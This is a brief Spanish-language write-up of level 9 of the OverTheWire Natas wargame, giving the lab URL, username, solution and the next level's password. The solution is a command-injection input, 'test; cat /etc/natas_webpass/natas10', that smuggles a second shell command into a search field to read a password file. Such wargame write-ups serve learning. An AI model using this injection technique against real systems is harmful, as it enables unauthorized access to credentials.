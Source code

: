 # Natas Nivel 9

**URL:** http://natas9.natas.labs.overthewire.org

**Usuario:** natas9

**Solución:** se encontró la contraseña buscando con el siguiente código: “test; cat /etc/natas_webpass/natas10” que nos ayudo a encontrar la contraseña

**Contraseña:** t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
